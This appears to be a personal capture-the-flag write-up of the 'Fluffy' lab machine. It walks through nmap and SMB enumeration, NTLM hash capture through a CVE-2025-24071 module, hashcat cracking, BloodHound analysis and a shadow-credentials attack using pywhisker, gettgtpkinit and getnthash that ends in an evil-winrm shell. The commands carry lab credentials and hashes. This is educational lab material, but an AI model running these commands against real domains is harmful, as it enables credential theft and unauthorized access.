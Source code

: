 > s8 - window - ez -  i cannot do


> [!NOTE]  
> i have no idea what an ad is...
> we ball im going in blind
> 
> future me is gonna look at this and hopefully think 'this idiot'
> 
> but this is a self note guided by a writeup 

<details>
<summary>Nmap scan</summary>

```
# Nmap 7.95 scan initiated Fri Jul  4 05:33:07 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -O -v -oN Fluffy 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up (0.27s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-07-05 00:33:33Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:06+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-07-05T00:35:05+00:00; +15h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
|_SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP Sequence Prediction: Difficulty=254 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 15h00m01s, deviation: 0s, median: 15h00m01s
| smb2-time: 
|   date: 2025-07-05T00:34:29
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul  4 05:35:06 2025 -- 1 IP address (1 host up) scanned in 119.12 seconds
```
</details>

<details>
  <summary>Listing and connecting to SMB shares</summary>
 
smbclient -L //10.10.11.69 -U j.fleischman
```
  Password for [WORKGROUP\j.fleischman]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	IT              Disk      
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.69 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```


smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!

```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon May 19 10:27:02 2025
  ..                                  D        0  Mon May 19 10:27:02 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 11:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 11:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 11:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 11:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 10:31:07 2025

		5842943 blocks of size 4096. 1567835 blocks available
```

Downloading files from the share 
```
smbclient //10.10.11.69/IT -U j.fleischman --password=J0elTHEM4n1990!
Try "help" to get a list of possible commands.
smb: \> recurse ON  //recursively get files
smb: \> prompt OFF  // ignore prompt 
smb: \> mget * //get all
getting file \Everything-1.4.1.1026.x64.zip of size 1827464 as Everything-1.4.1.1026.x64.zip (121.6 KiloBytes/sec) (average 121.6 KiloBytes/sec)
getting file \KeePass-2.58.zip of size 3225346 as KeePass-2.58.zip (838.1 KiloBytes/sec) (average 267.7 KiloBytes/sec)
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (149.9 KiloBytes/sec) (average 261.0 KiloBytes/sec)
```
</details>

Findings in share
=
Nice pdf, dont mind if i take a look 

![image](https://github.com/user-attachments/assets/e1ba2b62-022b-43ac-a719-20b07168758c)

mentioned cves in the pdf
> CVE-2025-24996

External control of file name or path in Windows NTLM allows an unauthorized attacker to perform spoofing over a network.
![image](https://github.com/user-attachments/assets/3667dfe0-b375-45c7-a6a1-4f0339a83faa)
![image](https://github.com/user-attachments/assets/44a1832b-18f7-43d9-9149-ef50b6717f35)

> CVE-2025-24071

Exposure of sensitive information to an unauthorized actor in Windows File Explorer allows an unauthorized attacker to perform spoofing over a network.

> CVE-2025-46785

Buffer over-read in some Zoom Workplace Apps for Windows may allow an authenticated user to conduct a denial of service via network access.
> CVE-2025-29968

Improper input validation in Active Directory Certificate Services (AD CS) allows an authorized attacker to deny service over a network.
> CVE-2025-21193

Active Directory Federation Server Spoofing Vulnerability
> CVE-2025-3445


Metasploit exploit the cve
=
time to use a module which aparently is not in metasploit

1st get the module (rb file) and put it into this folder for reasons, after that, run it to make the payload (evil zip file)
```
/usr/share/metasploit-framework/modules/auxiliary/server/
```

![image](https://github.com/user-attachments/assets/875edeef-220a-4d6c-8e0f-95d4ad006860)

and here we have the hash....
time to put the cat to work
![image](https://github.com/user-attachments/assets/59601e74-6897-442c-abf2-cde799d7b7bc)

good cat! 

```hashcat -m 5600 -a 0 agila-has.txt /usr/share/wordlists/rockyou.txt --force```
![image](https://github.com/user-attachments/assets/1a3fecce-2231-4d24-be78-ba4aef7398a4)

but too bad this user too is unprivilleged 

bloodhound 
=
Using bloodhound, we can try to get some information on thhe users in the ad?
<details>
fleischman

```
bloodhound-python -d FLUFFY.HTB -u j.fleischman -p "J0elTHEM4n1990!" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 51S
```

agila 

```
bloodhound-python -d FLUFFY.HTB -u p.agila -p "prometheusx-303" -gc dc01.fluffy.htb -c all -ns 10.10.11.69

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
INFO: Done in 00M 48S
```
RELEASE THE HOUND 
![image](https://github.com/user-attachments/assets/a59f7c9c-5223-4dda-98e8-2d29da1e6096)

> defenitely did not take an hour debugging postgresql, neo4j and bloodhound

but here we have it, good hound !
![image](https://github.com/user-attachments/assets/68d0e25f-0929-47bc-9695-21df4632c488)
![image](https://github.com/user-attachments/assets/8fc99465-4361-453a-b1fd-b97a765d1596)
![image](https://github.com/user-attachments/assets/ae670e0a-bc69-4ef2-acc0-974b4dfb25ae)

From this image, its knwon that agila has a service account manager role...

![image](https://github.com/user-attachments/assets/b0c5342d-540e-42aa-b834-ccc4495af5ad)

And from the servuce account manager role, we can see that we can do alot because of the GenericWrite permission. 

</details>

Attack 
=
Next we start the atatck

> give service manager role to agila and make fake cert
![image](https://github.com/user-attachments/assets/2c6d7619-ef2a-4ca1-baf7-9bf33a76a7bf)

> oh, kerberos is very dependent on time, im calling dio (this part didnt really work out) 
> ![image](https://github.com/user-attachments/assets/4addd188-9a23-4342-9fed-fd8a7be68cd8)
> ![image](https://github.com/user-attachments/assets/e2c85061-4c56-4765-8ec1-16b20d250ff5)


> after spending way too much time (pun) changing the system time to match their system time, it was make known that GUI through system settings was the only way
> ![image](https://github.com/user-attachments/assets/887affa9-8395-4e85-935a-061cc7fd3301)

> as the repo stated, its magic really, it was
> ![image](https://github.com/user-attachments/assets/e3db27de-6920-47f6-867f-8601bc42d3f9)

> now time to get a shell and it will be smooth sailing from there 
> ![image](https://github.com/user-attachments/assets/264a9d81-af80-4e84-806a-4bb1d1b78fea)

> [!NOTE]
> This is all for me to refer back incase i forget (which i am very forgetful)
> mostly ai gen as i dont know much aabout windows ad **aS A lINux uSEr**

The exploit here is using shadow crdential and exploit the ```msDS-KeyCredentialLink``` in AD. It allows users authenticate with a certificate instead of a password. 
This attack requires at least a user access and GenericWrite or GenericAll over target user (in this case agila) or WriteProperty specifically on msDS-KeyCredentialLink. Thse usually comes from compromosed service account or misconfigured privilleges. 

The attack starts with generating a new RSA key pair and certificate with pywisker. It also writes the cert and keypair to the target user's msDS-KeyCredentialLink
```
./pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
```
in the ad, this happens
```
# This is essentially what pywhisker does via LDAP
Set-ADUser -Identity "winrm_svc" -Add @{'msDS-KeyCredentialLink'=$certificateData}
# by claude
```

Next Up is the TGT REquest from gettgtpkinit (get tgt pk init?)
A TGT (ticket granting ticket), a weird ass Microsoft term =) is an encrypted ticket issued by the Authentication Server (AS). It is used to access network rescources.

By using the private key generated from pywhisker, it sends AS-REQ (Authentication Server Request) with PKINIT (Public Key Cryptography for Initial Authentication)
On the server side, the domain controller validates the certificate against msDS-KeyCredentialLink and issues a TGT and  session key if valid 
```
python3 gettgtpkinit.py -cert-pem V0shaM75_cert.pem -key-pem V0shaM75_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache
```

Now that we have an AES ket from the TGT Request from before to request the victim user (in this case winrm) NT hash through the U2U (User-to-User) authentication process.
NT hash is the windows format of storing and hashing password which allows evil-winrm to usse it for authentication 
```
python3 getnthash.py -key "c8544f389cecfe58224d6728259683b5d845ca591cad93f892427e123a5e0850" fluffy.htb/winrm_svc
```

Then finally the attacker can get a shell by using evil-winrm and the NT hash from previous step. 
```
evil-winrm -i 10.10.11.69 -u winrm_svc -H "33bd09dcd697600edf6b3a7af4875767"
```
